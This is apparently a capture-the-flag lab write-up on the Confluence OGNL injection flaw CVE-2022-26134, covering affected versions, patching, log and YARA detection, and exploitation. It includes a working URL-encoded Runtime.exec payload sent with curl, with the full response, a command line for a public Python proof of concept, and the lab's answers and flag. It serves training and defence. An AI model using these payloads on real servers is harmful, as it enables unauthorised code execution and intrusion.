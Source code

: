 # Intro
On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's [Confluence Server and Data Center editions](https://www.atlassian.com/software/confluence).

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:  

- 1.3.0 -> 7.4.17
- 7.13.0 -> 7.13.7
- 7.14.0 -> 7.14.3 
- 7.15.0 -> 7.15.2 
- 7.16.0 -> 7.16.4
- 7.17.0 -> 7.17.4
- 7.18.0 -> 7.18.1 

You can view the NIST entry for CVE-2022-26134 [here](https://nvd.nist.gov/vuln/detail/CVE-2022-26134).

---

# Deploy the Vulnerable Machine

Now it is time to practice this vulnerability! Deploy the machine attached to this task, and craft different payloads to answer the questions below.

Note: Please wait for a **minimum of seven minutes** for this machine to start up **before attacking**. You can verify the machine is ready for attack once the login page on the following URL loads: [HTTP://MACHINE_IP:8090](HTTP://MACHINE_IP:8090). In the meanwhile, proceed with the rest of the tasks.[](HTTP://MACHINE_IP:8090)

  

![A screenshot displaying two input text fields for the user's name and password on the Confluence login web panel.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/ad97fbaca5c8bc6e2e8bb610ba8f9eb6.png)

_The Confluence login panel on [HTTP://MACHINE_IP:8090](http://machine_ip:8090/)._

---

# Explaining the Vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

![A web page with questions and a input text field to the right of each question, displaying how values input into a web form can be stored in the back-end using OGNL](https://tryhackme-images.s3.amazonaws.com/user-uploads/5de96d9ca744773ea7ef8c00/room-content/e6faa8adfa06970699db20a2ce49dfea.png)

_Thanks to Journaldev.com for this example of OGNL in use._

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

---

# Exploit Detection and Patching

## Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read [here](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html). To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:  

- 7.4.17
- 7.13.7
- 7.14.3
- 7.15.2
- 7.16.4
- 7.17.4
- 7.18.1

## Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in `/opt/atlassian/confluence/logs`. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

- `grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22"` in **catalina.out**

## Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located [here](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar).

Unfamiliar with Yara? Check out our Yara room [here](https://tryhackme.com/room/yara).

---

# Exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server: `${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/`  .

This will need to be URL encoded, like the following snippet below. You can use [this](https://www.urlencoder.org/) website to help URL encode your payloads (**note** that your `curl` payload will need to end in a trailing `/` and not `$2F`):

Creating a temporary file on the server to prove vulnerability

```output
cmnatic@thm-cve-2022-26134:~$ curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20
/tmp/thm%22%29%7D/ 
*   Trying 127.0.0.1:8090... 
* TCP_NODELAY set 
* Connected to localhost (127.0.0.1) port 8090 (#0) 
* GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1 
* Host: localhost:8090 
* User-Agent: curl/7.68.0 
* Accept: */* > 
* Mark bundle as not supporting multiuse 
* < HTTP/1.1 302 
* < X-ASEN: SEN-L18512764 
* < X-Confluence-Request-Time: 1656845716316 
* < Set-Cookie: JSESSIONID=761E9FA42B315225C0B84B0BAC92B2B3; Path=/; HttpOnly 
* < X-XSS-Protection: 1; mode=block 
* < X-Content-Type-Options: nosniff 
* < X-Frame-Options: SAMEORIGIN 
* < Content-Security-Policy: frame-ancestors 'self' 
* < Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true 
* < Content-Type: text/html;charset=UTF-8 
* < Content-Length: 0 
* < Date: Sun, 03 Jul 2022 10:55:17 GMT 
* < * Connection #0 to host localhost left intact 
* cmnatic@thm-cve-2022-26134:~$
```

 
When looking at the server, we can see that it is vulnerable:

Creating a temporary file on the server to prove vulnerability

```php
cmnatic@thm-cve-2022-26134:~$ ls /tmp hsperfdata_confluence thm snap.lxd
```

### Python

There are a few working PoC exploits out there. For this room, I will be demonstrating Samy Younsi (Mwqda)'s PoC written in Python and hosted on [GitHub](https://github.com/Nwqda/CVE-2022-26134).

First, we need to download the PoC to our host. The PoC has been attached as a zip to this task. If you are using the THM AttackBox, you can find the PoC in /root/Rooms/CVE2022-26134

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

1. `python3.9 cve-2022-26134.py HTTP://10.10.193.215:8090 COMMAND`

---

**Answer the questions below**

_Download the proof of concept for this task! If you are using the AttackBox, this is already done for you, where it can be found in /root/Rooms/CVE2022-26134._

_Ensure the login panel on [HTTP://10.10.193.215:8090](HTTP://10.10.193.215:8090) loads before proceeding._

_Craft a payload to identify what user the application is running as. What is the user?_

**confluence**

_Finally, craft a payload to retrieve the flag stored at  /flag.txt on 10.10.193.215. What is the flag?_

**THM{OGNL_VULN}**

---

**Completed:** _12:55 2024-07-18_ 
